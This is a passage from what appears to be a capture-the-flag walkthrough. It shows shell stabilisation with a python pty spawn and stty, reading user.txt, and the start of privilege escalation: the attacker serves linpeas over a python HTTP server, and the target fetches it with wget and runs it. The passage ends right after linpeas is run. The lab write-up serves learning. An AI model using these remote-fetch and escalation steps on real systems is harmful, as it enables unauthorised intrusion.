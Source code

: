 #### code-stty
 ```bash
 python3 -c 'import pty;pty.spawn("/bin/bash")'
 [ctrl] + z
 stty raw -echo
 fg [Enter] two times
 ```
 
 Then setting the TERM so that you are able to clean the terminal:
 ```bash
 export TERM=xterm
 ```

Then i listed the files and  you can get the **user.txt** by

#### code-user
```shell
cat user.txt
```

##  Privillage Escalation
so we now need to get the root so i decide to use the same password with the sudo but it refused the password seems  to be not the same so i decide to use **linpeas**  which is s **a well-known enumeration script that searches for possible paths to escalate privileges on Linux/Unix* targets**. https://github.com/carlospolop/PEASS-ng use the latest i downloaded linpeas to my local machine and fowarded it to the box 

use this code to get your ip  tun and use that ip to foward linpeas to the box

#### code-tun0
```shell
ip addr show dev tun0
```

start a python server to where you have downloaded your linpeas you can use your own port

#### code-server
```shell
python3 -m http.server 
```

Then to the box use this code to to get linpeas.sh

#### code-linpeas
```shell
wget ip/linpeas.sh
```

![image](https://user-images.githubusercontent.com/64952843/165169122-c2fb4425-1ca3-47fd-b4c5-0aeabb825f0c.png)

so you run linpeas using this

#### code-run linpeas
```shell
bash linpeas.sh
```
